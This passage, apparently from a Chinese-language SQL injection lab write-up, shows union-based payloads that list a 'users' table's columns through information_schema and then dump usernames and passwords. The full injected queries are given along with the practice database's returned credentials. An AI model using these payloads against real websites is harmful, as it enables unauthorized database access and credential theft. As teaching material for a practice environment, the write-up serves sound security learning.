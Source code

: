 ### 查询字段名

`?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+`

```
select * from users where id='-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+' limit 0,1
```

![image-20221223162311802](assets/image-20221223162311802.png)

```
users的字段名
user_id
first_name
last_name
user
password
avatar
last_login
failed_login
USER
CURRENT_CONNECTIONS
TOTAL_CONNECTIONS
id
username
password
```

### 查看字段内容

`?id=-1' union select 1,2,(select group_concat(username,0x7e,password)from users)--+`

这里0x7e是~的16进制，能够将用户名和密码隔开，便于分辨。

<img src="assets/image-20221223165043284.png" alt="image-20221223165043284"  />

```
用户~口令:
Dumb~Dumb
Angelina~I-kill-you
Dummy~p@ssword
secure~crappy
stupid~stupidity
superman~genious
batman~mob!le
admin~admin
admin1~admin1
admin2~admin2
admin3~admin3
dhakkan~dumbo
admin4~admin4
```
